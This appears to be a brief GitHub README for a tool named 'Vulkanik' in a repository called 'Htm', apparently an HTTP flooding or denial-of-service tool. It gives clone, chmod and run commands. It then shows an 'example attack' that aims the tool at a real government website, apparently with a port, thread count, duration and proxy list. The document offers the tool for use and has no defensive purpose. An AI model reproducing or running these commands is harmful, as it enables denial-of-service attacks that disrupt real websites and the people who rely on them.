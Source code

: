 # Htm

git clone https://github.com/TaliGanda/Htm
cd Htm
chmod +x Vulkanik
./Vulkanik

example attack 
./Vulkanik GET https://nasa.gov 80 64 15 proxy.txt
